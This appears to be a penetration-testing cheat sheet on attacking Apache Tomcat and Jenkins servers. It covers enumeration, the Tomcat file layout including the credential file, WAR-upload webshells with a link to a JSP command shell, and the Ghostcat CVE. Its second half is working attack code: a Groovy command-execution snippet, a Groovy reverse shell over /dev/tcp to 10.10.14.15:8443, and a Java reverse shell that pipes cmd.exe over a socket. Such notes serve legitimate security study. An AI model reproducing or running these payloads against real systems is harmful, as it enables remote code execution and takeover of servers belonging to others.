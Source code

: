 # Attacking Servlet Containers/Software Development

### Tomcat - Discovery & Enumeration

Discover version from error page:

<img width="918" height="220" alt="image" src="https://github.com/user-attachments/assets/dba5c286-dbd2-41cb-9dfd-f63cecd0e697" />

Method: insert invalid page 


The _bin_ folder stores scripts and binaries needed to start and run a Tomcat server. 

The _conf_ folder stores various configuration files used by Tomcat. 

The **_tomcat-users.xml_** file stores user credentials and their assigned roles. 

The _lib_ folder holds the various JAR files needed for the correct functioning of Tomcat. 

The _logs_ and temp folders store temporary log files. 

The _webapps_ folder is the default webroot of Tomcat and hosts all the applications. 

The _work_ folder acts as a cache and is used to store data during runtime.


Default tree:

<img width="924" height="508" alt="image" src="https://github.com/user-attachments/assets/00ac2510-9533-4eb1-af5e-ba28d7f46843" />

<img width="940" height="377" alt="image" src="https://github.com/user-attachments/assets/e5f689c2-a319-4b3a-84e0-dec24c9b99a1" />

The most important file among these is WEB-INF/web.xml, which is known as the deployment descriptor. This file stores information about the routes used by the application and the classes handling these routes. All compiled classes used by the application should be stored in the WEB-INF/classes folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The lib folder stores the libraries needed by that particular application. The jsp folder stores Jakarta Server Pages (JSP), formerly known as JavaServer Pages, which can be compared to PHP files on an Apache server.

### Tomcat attack path:

War upload 
https://en.wikipedia.org/wiki/WAR_(file_format)#:~:text=In%20software%20engineering%2C%20a%20WAR,that%20together%20constitute%20a%20web

https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

Direct vulnerabilities like: CVE-2020-1938 : Ghostcat


### Jenkins / Groovy script execution:
**Commnad exec Groovy:**
``` def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout ```

**RevShell Groovy:**
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

**Rev Shell for Windows:**
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
